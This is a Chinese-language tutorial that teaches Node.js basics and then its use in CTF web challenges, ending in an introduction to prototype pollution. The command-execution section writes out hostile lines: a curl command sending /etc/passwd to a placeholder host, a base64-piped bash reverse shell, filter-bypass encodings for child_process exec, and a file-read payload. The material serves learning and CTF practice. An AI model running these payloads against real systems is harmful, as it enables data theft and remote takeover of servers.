# NodeJs从零到一 - 先知社区

NodeJs从零到一

- - -

# nodejs初探

开始之前，简单来学习一下一些nodejs的基础。

## nodejs和javascirpt

在没有了解过这二者之前，我其实认为二者是相似的，实际上，两者有这很大的区别

### nodejs

NodeJS是一个跨平台和开源的Javascript运行环境，允许Javascript在服务器端运行。Nodejs允许Javascript代码在浏览器之外运行。Nodejs有很多模块，主要用于网络开发。

### javascript

Javascript是一种脚本语言。它通常被缩写为JS。可以说，Javascript是ECMA脚本的更新版本。Javascript是一种高级编程语言，它使用了Oops的概念，但它是基于原型继承的。

### 区别

| S.No | Javascript | NodeJS |
| --- | --- | --- |
| 1   | Javascript是一种编程语言，用于在网站上编写脚本。 | NodeJS是一种Javascript的运行环境。 |
| 2   | Javascript只能在浏览器中运行。 | 在NodeJS的帮助下，可以在浏览器外运行Javascript。 |
| 3   | Javascript基本上是在**客户端**使用。 | NodeJS主要用在**服务器**端。 |
| 4   | Javascript有足够的能力来添加HTML和玩弄DOM。 | Nodejs不具备添加HTML标签的能力。 |
| 5   | Javascript可以在任何浏览器引擎中运行，比如Safari中的JS core和Firefox中的Spidermonkey。 | V8是node.js内部的Javascript引擎，可以解析和运行Javascript。 |
| 6   | Javascript在前端开发中使用。 | Nodejs则用于服务器端开发。 |
| 7   | Javascript的一些框架有RamdaJS、TypedJS等。 | Nodejs的一些模块有Lodash、express等。这些模块需要从npm导入。 |
| 8   | Javascript是ECMA脚本的升级版，使用Chrome的V8引擎，用C++编写。 | Nodejs是用C、C++和Javascript编写的。 |

## Nodejs基础

我们主要来学习一下跟web安全有关的js内容。

### 从如何运行开始

#### REPL

Node.js 是一个基于 Chrome V8 引擎的 Javascript 运行环境

但是它是由C++开发的，它只是一个JavaScript语言解释器。  
REPL环境运行JavaScript的代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115953-ee02ccec-85c6-1.png)

在浏览器的控制台或者node的运行环境都属于REPL运行环境，均可以运行JS代码。

Node 自带了交互式解释器，可以执行以下任务：

-   **读取** - 读取用户输入，解析输入的 Javascript 数据结构并存储在内存中。
-   **执行** - 执行输入的数据结构
-   **打印** - 输出结果
-   **循环** - 循环操作以上步骤直到用户两次按下 **ctrl-c** 按钮退出。

#### 使用变量

变量声明需要使用 **var** 关键字，如果没有使用 var 关键字变量会直接打印出来。

使用 **var** 关键字的变量可以使用 console.log() 来输出变量。

```plain
$ node
> x = 10
10
> var y = 10
undefined
> x + y
20
> console.log("Hello World")
Hello World
undefined
```

### 同步和异步

区别

-   同步：等待每个操作完成，然后只执行下一个操作
-   异步：从不等待每个操作完成，而是只在第一步执行所有操作

Node.js 异步编程的直接体现就是回调。

异步编程依托于回调来实现，但不能说使用了回调后程序就异步化了。

回调函数在完成任务后就会被调用，Node 使用了大量的回调函数，Node 所有 API 都支持回调函数。

例如，我们可以一边读取文件，一边执行其他命令，在文件读取完成后，我们将文件内容作为回调函数的参数返回。这样在执行代码时就没有阻塞或等待文件 I/O 操作。这就大大提高了 Node.js 的性能，可以处理大量的并发请求。

**回调函数一般作为函数的最后一个参数出现**：

```plain
function foo1(name, age, callback) { }
function foo2(value, callback1, callback2) { }
```

**阻塞代码实例**

首先创建一个文件test.txt,文件内容是

```plain
hello world
```

创建js文件

```plain
var fs = require("fs");

var data = fs.readFileSync('test.txt');

console.log(data.toString());
console.log("程序执行结束!");
```

执行结果为

```plain
hello world
程序执行结束!
```

**非阻塞代码实例**

```plain
var fs = require("fs");

fs.readFile('input.txt', function (err, data) {
    if (err) return console.error(err);
    console.log(data.toString());
});

console.log("程序执行结束!");
```

执行结果为

```plain
程序执行结束!
hello world
```

### 声明常量

在Node.js中，`const`是一个用于声明常量的关键字。当你使用`const`关键字声明一个变量时，它表示这个变量的值是不可变的，也就是说它是一个常量。

使用`const`声明的变量在初始化后不能再被重新赋值。这意味着你不能改变`const`变量的值，而且在尝试这样做时，会引发一个错误。

下面是一个示例

```plain
const pi = 3.14159;
const name = 'John Doe';

// 错误的示例，尝试修改常量的值
pi = 3.14; // 引发错误

// 错误的示例，尝试重新赋值常量
name = 'Jane Doe'; // 引发错误
```

虽然`const`声明的变量的值是不可变的，但如果变量是一个对象或数组，它们的属性或元素可以被修改。这是因为`const`只限制了变量的指向，而不限制对象或数组本身的修改

```plain
const person = {
  name: 'John Doe',
  age: 30
};

person.age = 31; // 合法，修改了对象的属性

console.log(person); // 输出: { name: 'John Doe', age: 31 }
```

总的来说，`const`关键字用于声明不可变的常量，防止变量的重新赋值。但对于对象或数组，`const`限制的是变量指向的对象，而不限制对象本身的修改。

### 全局变量

-   \_\_dirname：当前模块的目录名。
    
-   \_\_filename：当前模块的文件名。 这是当前的模块文件的绝对路径（符号链接会被解析）。
    
-   exports变量是默认赋值给`module.exports`，它可以被赋予新值，它会暂时不会绑定到module.exports。
    
-   module：在每个模块中， `module` 的自由变量是对表示当前模块的对象的引用。 为方便起见，还可以通过全局模块的 `exports` 访问 `module.exports`。 module 实际上不是全局的，而是每个模块本地的
    
-   require模块就不多说了，用于引入模块、 JSON、或本地文件。 可以从 node\_modules 引入模块。
    

```plain
// 引入 JSON 文件：
const jsonData = require(‘./path/filename.json’);

// 引入 node_modules 模块或 Node.js 内置模块：
const crypto = require(‘crypto’);
```

自己设置

```plain
global.something = 123;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115855-cb7581a6-85c6-1.png)

经常使用的全局变量是`__dirname`、`__filename`

### 函数

在 JavaScript中，一个函数可以作为另一个函数的参数。我们可以先定义一个函数，然后传递，也可以在传递参数的地方直接定义函数。

Node.js 中函数的使用与 JavaScript 类似，比如说可以这样

```plain
function say(word) {
  console.log(word);
}

function execute(someFunction, value) {
  someFunction(value);
}

execute(say, "Hello");
```

以上代码中，我们把 say 函数作为 execute 函数的第一个变量进行了传递。这里传递的不是 say 的返回值，而是 say 本身！

这样一来， say 就变成了execute 中的本地变量 someFunction ，execute 可以通过调用 someFunction() （带括号的形式）来使用 say 函数。

当然，因为 say 有一个变量， execute 在调用 someFunction 时可以传递这样一个变量。

**匿名函数**

我们可以把一个函数作为变量传递。但是我们不一定要绕这个"先定义，再传递"的圈子，我们可以直接在另一个函数的括号中定义和传递这个函数：

```plain
function execute(someFunction, value) {
  someFunction(value);
}

execute(function(word){ console.log(word) }, "Hello");
```

我们在 execute 接受第一个参数的地方直接定义了我们准备传递给 execute 的函数。用这种方式，我们就不给这个函数起名字了。

## 应用

### HTTP服务

来看一个示例代码

```plain
const http = require('http');//首先要导入http模块

const hostname = '127.0.0.1'; // 服务器主机名
const port = 8080; // 服务器端口

// 创建 HTTP 服务器
const server = http.createServer((req, res) => {
  res.statusCode = 200; // 设置响应状态码
  res.setHeader('Content-Type', 'text/plain'); // 设置响应头的 Content-Type
  res.end('Hello, World!'); // 发送响应内容
});

// 启动服务器并监听指定的主机名和端口
server.listen(port, hostname, () => {
  console.log(`Server running at http://${hostname}:${port}/`);
});
```

启动运行文件，访问指定的端口，HTTP服务的页面就显示出来了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115842-c3a0a712-85c6-1.png)

### get/post请求

在很多场景中，我们的服务器都需要跟用户的浏览器打交道，如表单提交。表单提交到服务器一般都使用 GET/POST 请求。

### 读取文件操作

nodejs的核心模块就是文件系统模块

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118120030-03aee6a2-85c7-1.png)

文件读取

```plain
var fs = require('fs');//导入fs模块
fs.readFile('./first.txt','utf8',function(err,data){
    console.log(err);
    console.log('---分界线----');
    console.log(data);
});
console.log("haha");
//first.txt
//flag{hallo world}
```

输出

```plain
haha
null
---分界线----
flag{hallo world}
```

#### 关于console

在Node.js中，`console`是一个全局对象，它提供了一组用于在终端或命令行界面输出消息的方法。它是一种调试和日志记录工具，可用于在开发过程中输出信息，进行调试和查看变量的值。

我们可以这样来使用console对象

-   **输出文本消息**：使用`console.log()`方法输出一条或多条文本消息到控制台

```plain
console.log("Hello, world!");
```

-   **输出变量的值**：您可以通过将变量放在输出语句中来查看其当前的值。

```plain
const name = "John";
console.log("Name:", name);
```

-   **格式化输出**：您可以使用占位符和格式化字符串来创建更复杂的输出。

```plain
const age = 30;
console.log("Name: %s, Age: %d", name, age);
```

## 一些特性

### 大小写

toUpperCase() 在JavaScript中 是将小写改为大写的函数

但是就是在转换大小写的过程中 我们可以使用一些我们并不常见的字符 来转换出 我们所需要的字符 来绕过过滤

```plain
"ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'v
```

相对应的 toLowerCase() 也会有相关的特性(将大写转化为小写)

```plain
"K".toLowerCase() == 'k'
```

### 弱类型比较

与php相似，数字与数字字符串比较的时候，数字型字符串会被转换之后再比较

> 数字与数字字符串之间的比较

```plain
console.log(1=='1'); //true
console.log(1>'2'); //false
console.log('1'<'2'); //true
console.log(111>'3'); //true
console.log('111'>'3'); //false
console.log('asd'>1); //false
//最后一个字符串转换后是0，所以经过比较后为false
```

> 字符串与字符串相比较

```plain
console.log([]==[]); //false
console.log([]>[]); //false
console.log([6,2]>[5]); //true
console.log([100,2]<'test'); //true
console.log([1,2]<'2');  //true
console.log([11,16]<"10"); //false
```

-   空数组间的比较为false
-   数组之间比较取第一个值进行比较，如果有字符串取第一个字符进行比较
-   数组永远比非数组字符串小，比如`[100,2]<'test'`为true

> 其它比较

```plain
console.log(null==undefined) // 输出：true
console.log(null===undefined) // 输出：false
console.log(NaN==NaN)  // 输出：false
console.log(NaN===NaN)  // 输出：false
```

### 变量拼接

```plain
console.log(5+[6,6]); //56,6
console.log("5"+6); //56
console.log("5"+[6,6]); //56,6
console.log("5"+["6","6"]); //56,6
```

### ES6模板字符串

我们可以使用反引号替代括号执行函数，可以用反引号替代单引号双引号，可以在反引号内插入变量。

但是有一点我们需要注意，模板字符串是将字符串作为参数传入函数中，而参数是一个数组，所以数组遇到`${}`时，字符串会被分割。

```plain
var node = "nodejs";
console.log("hello %s",node);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118120108-1abedbea-85c7-1.png)

```plain
var node = "nodejs";
console.log`hello${node}world`;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118120126-258b65e8-85c7-1.png)

# 浅析nodejs在ctf中的应用

在上一篇文章中我们简单了解一下什么是nodejs以及nodejs的一些特性，这篇文章中我们来学习一下

## 特性利用

首先结合nodejs中的一些特性来学习一下其如何在实战中应用

### 大小写绕过

来看一个示例

```plain
//login.js
var express = require('express');
var router = express.Router();
var users = require('../modules/user').items;

var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};

/* GET home page. */
router.post('/', function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var sess = req.session;
  var user = findUser(req.body.username, req.body.password);

  if(user){
    req.session.regenerate(function(err) {
      if(err){
        return res.json({ret_code: 2, ret_msg: '登录失败'});        
      }

      req.session.loginUser = user.username;
      res.json({ret_code: 0, ret_msg: '登录成功',ret_flag:flag});              
    });
  }else{
    res.json({ret_code: 1, ret_msg: '账号或密码错误'});
  }  

});

module.exports = router;
```

```plain
//uer.js
module.exports = {
  items: [
    {username: 'CTFSHOW', password: '123456'}
  ]
};
```

我们在上面的代码中找到了一个重要的匿名函数

```plain
var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};
```

里面的回调函数是这样实现的`name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;`。首先要确保name是否不为CTFSHOW，如果相等则证明用户名不符合要求。然后检查 `item` 对象的 `username` 属性是否与大写后的 `name` 相等。这里使用 `toUpperCase()` 方法将 `name` 转换为大写，以确保比较的一致性。最后，检查 `item` 对象的 `password` 属性是否与 `password` 参数相等。

这里存在大小写转换的函数，我们可以采用希腊字母进行绕过

```plain
"ſ".toUpperCase() == 'S'
```

这里我们传入`ctfſhow` `123456`就可以成功登录了

### 变量拼接/弱类型

```plain
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    res.end(flag);
  }else{
    res.render('index',{ msg: 'tql'});
  }

});

module.exports = router;
```

我们找到这段代码的关键部分

```plain
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    res.end(flag);
  }else{
    res.render('index',{ msg: 'tql'});
  }

});
```

其中的关键就是if语句的判断，首先保证给a和b变量的长度相等并且a不等于b,最后看a变量和b变量分别和flag拼接后的md5值是否相等，如果相等的话就输出flag。

我们来看下面的一个例子，我们分别赋值给两个不同的对象

```plain
a={'x':'1'}
b={'x':'2'}

console.log(a+"flag{xxx}")
console.log(b+"flag{xxx}")
```

输出

```plain
[object Object]flag{xxx}
[object Object]flag{xxx}
```

二者都会输出相同的内容。我们会发现一个对象与字符串相加，输出不会有对象的内容。这样他们的md5值也是一样的了。

所以我们传入?a\[x\]=1&b\[x\]=2就可以输出flag

## nodejs中的命令执行

像学习rce一样，我们首先来一下哪些危险函数可能会造成nodejs中的命令执行

### 漏洞函数

#### eval()

eval() 函数可计算某个字符串，并执行其中的的 JavaScript 代码。和PHP中eval函数一样，如果传递到函数中的参数可控并且没有经过严格的过滤时，就会导致漏洞的出现。

来看一个例子

```plain
var express = require("express");
var app = express();

app.get('/eval',function(req,res){
    res.send(eval(req.query.q));
    console.log(req.query.q);
})
//参数 a 通过 get 传参的方式传入运行，我们传入参数会被当作代码去执行。

var server = app.listen(8888, function() {
    console.log("应用实例，访问地址为 http://127.0.0.1:8888/");
})
```

#### settimeout()

> settimeout(function,time)

该函数作用是两秒后执行函数，function 处为我们可控的参数。

```plain
var express = require("express");
var app = express();

setTimeout(()=>{
  console.log("console.log('Hacked')");
},2000);

var server = app.listen(1234,function(){
    console.log("应用实例，访问地址为 http://127.0.0.1:1234/");
})
```

#### setinterval()

> setinterval (function,time)

这个函数的作用是每隔两秒执行一次代码。

```plain
var express = require("express");
var app = express();

setInterval(()=>{
  console.log("console.log('Hacked')");
},2000);


var server = app.listen(1234,function(){
    console.log("应用实例，访问地址为 http://127.0.0.1:1234/");
})
```

#### function()

> function(string)

string 是传入的参数，这里的 function 用法类似于 php 里的 create\_function。

```plain
var express = require("express");
var app = express();

var aaa=Function("console.log('Hacked')")();

var server = app.listen(1234,function(){
    console.log("应用实例，访问地址为 http://127.0.0.1:1234/");
})
```

### child\_process模块中的命令执行

首先我们来了解一下什么是child\_process模块

child\_process模块提供了与popen(3)类似但不完全相同的方式衍生子进程的能力。该库通过创建管道、分叉和调用外壳来打开一个进程。child\_process提供了几种创建子进程的方式

-   异步方式：spawn、exec、execFile、fork
-   同步方式：spawnSync、execSync、execFileSync

#### exec

Node.js中的chile\_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令

```plain
require('child_process').exec('calc');
//弹出计算器
```

-   linux中的文件读取

```plain
require('child_process').exec('curl -F "x=`cat /etc/passwd`" http://vps');
```

-   反弹shell

```plain
require('child_process').exec('echo SHELL_BASE_64|base64 -d|bash');
```

#### execFile

```plain
require('child_process').execFile("calc",{shell:true});
```

#### fork

```plain
require('child_process').fork("./hacker.js");
```

#### spawn

```plain
require('child_process').spawn("calc",{shell:true});
```

### 文件读取

在2023网信柏鹭杯出现过一道类似的题，使用`fs.readFileSync`进行文件读取

要满足`fs.readFileSync`的数组格式读取需要满足以下条件

-   有`href`且非空
-   有`origin`且非空
-   `protocol` 等于`file:`
-   有`hostname`且等于空(Windwos下非空的话会进行远程加载)
-   有`pathname`且非空(读取的文件路径)

payload

```plain
?file[href]=a&file[origin]=1&file[protocol]=file:&file[hostname]=&file[pathname]=读取的文件
```

### Bybass

#### 过滤`.`

通过我们上面对于nodejs命令执行的学习，我们知道在NodeJs中调用模块是通过“.”来实现的，假如说我们过滤了`.`，我们可以通过`[]`实现对于模块的调用

```plain
require('child_process')["exec"]('calc');
//require('child_process').exec('calc');
```

#### 拼接绕过

对于过滤一些关键字，我们可以使用拼接的方法进行绕过

```plain
require('child_process')["ex"+"ec"]('calc');
//require('child_process')["exec"]('calc');
```

#### 编码绕过

> 十六进制编码绕过

JavaScript是支持16进制作为字符串使用的，我们可以使用十六进制进行绕过

```plain
require('child_process')["\x65\x78\x65\x63"]('calc');
//require('child_process')["exec"]('calc');
```

> unicode编码绕过

JavaScript除了支持十六进制以外还支持Unicode编码作为字符串使用

```plain
require('child_process')["\u0065\u0078\u0065\u0063"]('calc');
//require('child_process')["exec"]('calc');
```

> base64编码绕过

```plain
eval(Buffer.from('cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpWyJleGVjIl0oJ2NhbGMnKTs=','base64').toString());
//require('child_process')["exec"]('calc');
```

#### ES6模版绕过

我们也可以使用ES6模板绕过，反引号后面加入模板

```plain
require('child_process')[`${`${`exe`}cSync`}`"]('calc');
```

#### concat拼接绕过

```plain
require('child_process')["exe".concat("c")]('calc');
```

#### Obejct.values

Object.values(obj)返回一个数组，成员是参数对象自身的（不含继承的）所有可遍历属性的键值，有点类似JAVA中的反射例如我们获取child\_process库的所有对象，我们可以根据我们自己的需要来获取对象。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118120211-40213400-85c7-1.png)

## 原型链污染

既然是从0开始学习，我们首先来跟着p神学习一下nodejs关于继承和原型链的知识

js中没有子类父类的概念，也没有类和实例，js中的继承使用”原型链”来实现。

在学习原型链之前，我们还需要知道对象和函数之间的区别是什么————对象是由函数创建的，函数实际上是另外一种对象。

在js中，几乎所有的事物都是对象

```plain
var a = {
    "name": "Pengu1n0ne",    
    "language": "chinese"
}
a.name;
a.language;
console.log(a);
```

如果我们想要访问对象的属性，我们有两种方法

```plain
a.name; 
a["name"];
```

### `prototype`和`__proto__`是什么

#### 构造函数

在js中如果我们想要定义一个类，我们需要用“构造函数”的方式来定义

```plain
function user{
    this.password = 123
}

new user()
```

在上面的代码中，我们定义了一个函数，`user`函数的内容，实际上就是`user`类的构造函数，`this.password`就是类的一个属性

按照我们以前对于类和对象的理解，通常来讲，一个类中必然有一些方法，在js中，我们可以将方法定义在函数内部

```plain
function user{
    this.password = 123
    this.login = function(){
        console.log(this.password)
    }
}

(new user()).login()//实例化一个对象并且调用对象的login方法
```

但这样写有一个问题，就是每当我们新建一个user对象时，`this.login = function...`就会执行一次，这个`login`方法实际上是绑定在对象上的，而不是绑定在“类”中。

#### 原型（prototype）

为了解决上面的问题，在创建类的时候只创建一次`login`方法，我们就可以使用原型了

```plain
function User(){
    this.password = 123
}

User.prototype.login = function login(){
    console.log(this.password)
}

let user = new User()
user.login()
```

我们可以把原型`prototype`理解为是类`User`的一个属性，而所有用`User`类实例化的对象，都将拥有这个属性中的所有内容，包括变量和方法。比如上图中的`user`对象，其天生就具有`user.login()`方法。

我们可以通过`User.prototype`来访问`User`类的原型，但`User`实例化出来的对象(`user`)，是不能通过`prototype`访问原型的。这时候，我们就需要使用`__proto__`了。

我们使用`User`类实例化出来的`user`对象，可以通过`user.__proto__`属性来访问`User`类的原型

```plain
function User(){
    this.password = 123
}

User.prototype.login = function login(){
    console.log(this.password)
}

let user = new User()

user.__proto__ == User.prototype
```

***关键点***:`user.__proto__ == User.prototype`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115748-a37e84f4-85c6-1.png)

所以说我们可以总结一下他们两者的区别

-   `prototype`是一个类的属性，所有类对象在实例化的时候将会拥有`prototype`中的属性和方法
-   一个对象的`__proto__`属性，指向这个对象所在的类的`prototype`属性

### nodejs原型链继承原理

所有类对象在实例化的时候将会拥有`prototype`中的属性和方法，这个特性被用来实现`JavaScript`中的继承机制。

来看一个例子

```plain
function Father(){
    this.first_name = 'Pengu1n'
    this.last_name = '0ne'
}

function Son(){
    this.first_name = 'node'
}

Son.prototype = new Father()

let son = new Son()
console.log(`Name: ${son.first_name} ${son.last_name}`)
```

最后输出的结果是`Name: node 0ne`，我们来看一下赋值的这个过程

```plain
Son.prototype = new Father()
```

`Son.prototype`被赋值为`new Father()`，这意味着`Son`的原型对象将变为一个`Father`的实例。这样做的结果是，当我们通过`son`实例访问属性时，如果`son`自身没有这个属性，它将去原型链中的`Father`实例中查找。

总结一下，对于对象son，在调用`son.last_name`的时候，实际上JavaScript引擎会进行如下操作：

-   在对象`son`中寻找`last_name`
-   如果找不到，则在`son.__proto__`中寻找`last_name`
-   如果仍然找不到，则继续在`son.__proto__.__proto__`中寻找`last_name`
-   依次寻找，直到找到`null`结束。比如，`Object.prototype`的`__proto__`就是`null`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115809-afd09562-85c6-1.png)

上面就是最基础的js的原型链继承原理，我们只需要记住最关键的几点即可

-   每个构造函数(constructor)都有一个原型对象(prototype)
-   对象的`__proto__`属性，指向类的原型对象`prototype`
-   `JavaScript`使用`prototype`链实现继承机制

### 什么是原型链污染

上面的内容中我们提到了，`user.__proto__`指向的是`User`类的`prototype`。那么，如果我们修改了`user.__proto__`中的值，是不是就可以修改`User`类呢？

我们来看一个例子

```plain
let user = {first: 1}
//首先我们设置了一个简单的js对象

console.log(user.first)
//此时的first是1

user.__proto__.first = 2
//修改class的原型（即Object）

console.log(user.first)
//此时由于查找顺序的原因，class.first仍然是1

let show = {}
//此时再使用Object创建一个空对象

console.log(show.first)
//查看show.first
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115727-96801c68-85c6-1.png)

最后我们发现，`show`虽然是个空对象，但是`show.first`输出的结果是2

我们来分析一下是什么原因，前面我们修改了`user`的原型`user.__proto__.first = 2`，而`user`是一个`Object`类的实例，所以实际上是修改了`Object`这个类，给这个类增加了一个属性`first`，值为2。

后来，我们又用`Object`类创建了一个`show`对象`let show = {}`，`show`对象自然也有一个`first`属性了。

也就是说，当我们访问`show.first`的时候，`JavaScript`首先检查 `show` 是否有自己的 `first` 属性，由于 `show` 本身没有，它会沿着原型链查找。

总的来说，在一个应用中，如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是**原型链污染**。

### 哪些情况下能进行原型链污染

